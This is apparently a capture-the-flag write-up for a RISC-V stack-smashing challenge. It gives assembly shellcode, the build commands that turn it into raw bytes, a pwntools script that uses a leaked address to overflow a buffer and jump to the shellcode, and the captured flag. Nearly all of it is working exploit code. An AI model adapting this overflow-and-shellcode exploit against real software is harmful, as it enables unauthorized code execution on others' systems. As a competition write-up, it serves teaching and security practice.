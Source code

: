 shellcode:
```c
/* attack.s */
_start: /* not needed but it looks better this way :) */
    li   a0,   1
    li   a1,   0x40800cfc
    li   a2,   0x300
    li   ra,   0x107d8
    jalr a3,   0(ra)
```

compiled with:
```sh
# Makefile
build: attack.s
    riscv32-unknown-elf-as -o attack.o attack.s
    riscv32-unknown-elf-objcopy -I elf32-littleriscv -O binary attack.o attack.bin
```
The first command compiles the assembly into an object file, and the second command strips everything from the elf
file and leaves only the section contents, leaving only the shellcode.

final exploit:
```python
from pwn import *

if args.REMOTE:
    io = remote("riscv_smash.quals2023-kah5Aiv9.satellitesabove.me", 5300)
    io.sendlineafter(b"Ticket please:\n", b"ticket{mike519464juliet4:GOKPBLXYOmtSLqsRatJTXZDuTDCBaH53fMS8_H0nOJSDxZGshZI-bIS4ZA0B85ftKA}")
else:
    io = process(["/home/unvariant/qemu-8.0.0-rc2/build/qemu-riscv32", "./smash-baby"])

def sync():
    io.send(b"ACEG")

io.recvuntil(b": ")

leak = io.recvline().strip()
leak = int(leak[2:], 16)
print(f"[+] leak: 0x{leak:x}")
code = leak + 0x24 - 0x40
read_message = code - 0x30
do_face = read_message - 0x140
print(f"[+] code: 0x{do_face:x}")

sync()
io.send(b"\xfa\xce")
shellcode = open("attack.bin", "rb").read().ljust(300, b"\x00")
io.send(shellcode)

sync()
io.send(b"BB")
payload = b"A" * 0x24 + p32(do_face)
payload = payload.ljust(0x3c, b"A")
io.send(payload)

io.interactive()
```

# Flag: `flag{mike519464juliet4:GMlClaBiu5sJhc-vXmujZg9D-xmAh1xKYLntXTTO4HssT_4PRDXz8z5hO82N8ENga27G-ZKYMpZzn0f9lKB0iIE}`
